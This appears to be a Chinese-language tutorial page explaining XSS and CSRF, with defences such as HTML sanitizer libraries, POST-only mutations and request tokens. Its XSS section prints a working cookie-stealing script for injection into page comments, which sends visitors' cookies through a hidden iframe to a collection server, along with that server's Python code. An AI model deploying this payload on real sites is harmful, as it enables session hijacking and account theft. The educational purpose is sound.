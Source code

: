 #  XSS 与 CSRF 两种跨站攻击

- XSS：跨站脚本（Cross-site scripting）

- CSRF：跨站请求伪造（Cross-site request forgery）

## XSS

>XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，  
例如发布评论，提交含有 JavaScript 的内容文本。  
这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。 

- 也可以是盗号或者其他未授权的操作——我们来模拟一下这个过程，先建立一个用来收集信息的服务器：
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

"""
跨站脚本注入的信息收集服务器
"""

import bottle

app = bottle.Bottle()
plugin = bottle.ext.sqlite.Plugin(dbfile='/var/db/myxss.sqlite')
app.install(plugin)

@app.route('/myxss/')
def show(cookies, db):
    SQL = 'INSERT INTO "myxss" ("cookies") VALUES (?)'
    try:
        db.execute(SQL, cookies)
    except:
        pass
    return ""

if __name__ == "__main__":
    app.run()
```
- 在某一个页面的评论中注入这段代码：

// 用 <script type="text/javascript"></script> 包起来放在评论中
```
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```
于是每个访问到含有该评论的页面的用户都会遇到麻烦——他们不知道背后正悄悄的发起了一个请求，是他们所看不到的。

而这个请求，会把包含了他们的帐号和其他隐私的信息发送到收集服务器上。

- 这里附上一些“白名单”消毒 HTML 标签和属性（Sanitize HTML）的开源解决方案
- Python: [lxml.html.clean](http://lxml.de/lxmlhtml.html#cleaning-up-html) / [bleach](https://github.com/jsocol/bleach)
- Ruby: [Sanitize](https://github.com/rgrove/sanitize/)
- JavaScript: [sanitize-html](https://github.com/punkave/sanitize-html)
- PHP: [htmlpurifier](http://htmlpurifier.org/)

## CSRF 冒充用户之手: CSRF 顾名思义，是伪造请求，冒充用户在站内的正常操作

>起初一直弄不清楚 CSRF 究竟和 XSS 有什么区别，后来才明白 CSRF 和 XSS 根本是两个不同维度上的分类。
XSS 是实现 CSRF 的诸多途径中的一条，但绝对不是唯一的一条。一般习惯上把通过 XSS 来实现的 CSRF 称为 XSRF。

CSRF 的全称是“跨站请求伪造”，而 XSS 的全称是“跨站脚本”

- 提高的一个门槛，就是改良站内 API 的设计。对于发布帖子这一类创建资源的操作，应该只接受 POST 请求，而 GET 请求应该只浏览而不改变服务器端资源。  
当然，最理想的做法是使用REST 风格 [2] 的 API 设计，GET、POST、PUT、DELETE 四种请求方法对应资源的读取、创建、修改、删除。  
现在的浏览器基本不支持在表单中使用 PUT 和 DELETE 请求方法，我们可以使用 ajax 提交请求（例如通过 jquery-form 插件，我最喜欢的做法），  
也可以使用隐藏域指定请求方法，然后用 POST 模拟 PUT 和 DELETE （Ruby on Rails 的做法）。  
这么一来，不同的资源操作区分的非常清楚，我们把问题域缩小到了非 GET 类型的请求上——攻击者已经不可能通过发布链接来伪造请求了，  
但他们仍可以发布表单，或者在其他站点上使用我们肉眼不可见的表单，在后台用 js 操作，伪造请求。  

- 方法就是“请求令牌”

## 参考资料
- https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/
